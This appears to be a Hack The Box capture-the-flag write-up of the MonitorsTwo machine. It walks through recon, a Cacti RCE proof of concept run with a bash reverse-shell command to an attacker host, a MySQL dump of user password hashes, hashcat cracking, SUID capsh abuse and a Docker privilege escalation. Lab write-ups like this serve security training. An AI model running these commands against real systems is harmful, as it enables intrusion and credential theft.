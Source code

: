```yaml
---
title: HTB | MonitorsTwo
date: 2023-07-9 14:00:00 -500
categories: [HTB, write-ups]
tags: [htb,red-team,ctf]
img_path: /assets/img/monitorstwo
---
```


## NMAP

`nmap -p- -sV -sC 10.10.11.211`

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-25 14:22 PDT
Nmap scan report for 10.10.11.211
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.17 seconds
```

## Gobuster

```
gobuster dir --url http://10.10.11.211/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,xml 
```

![gobuster-resaults](Pasted image 20230625144349.png)

Nothing too interesting was found, so moving on to see if we can glean any information from cacti site itself.

## Cacti

![cacti](Pasted image 20230625142620.png)

Version of Cacti running is:  1.2.22 

According to the change log there is a CVE that was patched in version 2.2.3 
![change-log](Pasted image 20230625144433.png)

## RCE for Cacti
Write up on the Command execution found on google: [https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/)

CVE POC: [https://github.com/sAsPeCt488/CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169)

I was able to download a copy of the payload from the github, and run it on my machine to get a shell open via a netcat reverse tunnel

![copying-over-payload](Pasted image 20230625152056.png)

The bit of the payload that creates the revshell
![](Pasted image 20230625152555.png)

```
python3 cacti_poc.py http://10.10.11.211/ -c "bash -c 'bash -i >& /dev/tcp/10.10.14.7/1337 0>&1'"
```

## Finding the Good stuff

![etc/password](Pasted image 20230625152954.png)

Interesting file in `/` called `entrypoint.sh`, chmod +x gives us a command that will connect to the mysql server

![entrypoint.sh](Pasted image 20230625155852.png)

After connecting to the database we are able to query to see what tables are there. Some of the more interesting ones are shown bellow.

![msql-query](Pasted image 20230625160618.png)

Using the following msql command we are able to dump all of the table contents from the user_auth table.
```
mysql --host=db --user=root --password=root -e "select * from user_auth" cacti
```

![mysql](Pasted image 20230625160456.png)

Here is the output for the for the SQL command:
```
< --password=root -e "select * from user_auth" cacti
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms

1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	1	1	1	on	-1	-1	-1	00	663348655

3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1		0	0	0

4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	1	1	1	on	-1	-1		on	0	0	2135691668

```

The logins are emails which gives us the FQDN they are using: `monitorstwo.htb`

## Password Decryption 

admin	
`$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC`

marcus	
`$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C`

Hashes start with `$2y$`  which is Bcrypt (blowfish)

Running hashcat against the hashes in mode 3200 for Bcrypt:
```
hashcat -a 0 -m 3200 2mon-hash.txt /usr/share/wordlists/rockyou.txt 
```

One Hash has a hit:
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:
`funkymonkey`

## User Takeover
`ssh marcus@10.10.11.211`

Marcus ssh:

![you-got-mail](Pasted image 20230625164011.png)

Looks like Marcus has some system mail, wonder if there is anything in there?

![the-mail](Pasted image 20230625164443.png)

This is looking like the next area for attack: `CVE-2021-41091`

Checking the running process shows that Docker containers running int he moby namespace are present:
![](Pasted image 20230709154945.png)

There is an exploit for this [https://github.com/UncleJ4ck/CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Secondary Artical:
[https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/](https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/)

I downloaded the POC from the GitHub repo and then copied over to the remote machine:

![phython-webserver](Pasted image 20230709160353.png)

![exploit-copied](Pasted image 20230709160420.png)

Running the script will work and it gives us a venerable path:
```
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
``````

![mobi-fail](Pasted image 20230709160533.png)

However, its not able to execute a shell, My guess is that we will need to go back to our remote shell on the Cacti instance and change some settings from there. Since the POC suggested that the /bin/bash of the container needs to have the setuid bit enabled

## Privilege Escalation
Getting back into the Cacti container I was able to download linpeas over to the /tmp directory and execute it

![http-request](Pasted image 20230709161446.png)

Found some interesting files particularly: /sbin/capsh
![linpeas](Pasted image 20230709165556.png)

Looks like we can run it and it has the SUID bit set:

![sbin/capsh](Pasted image 20230709165718.png)

![sbin/capsh-2](Pasted image 20230709165645.png)

We can give ourselves root by using: `/sbin/capsh --gid=0 --uid=0 --`
and then set the SUID bit on /bin/bash with `chmod u+s /bin/bash`

![rev-shel](Pasted image 20230709171813.png)

## We have Root!

Re-ran moby-exp.sh:
![moby](Pasted image 20230709171918.png)

Shell spawned, but exited time to re-connect

![root-1](Pasted image 20230709172038.png)

We have root! Now its time for the Flag!

![root-2](Pasted image 20230709172234.png)

![completed](Pasted image 20230709172323.png)
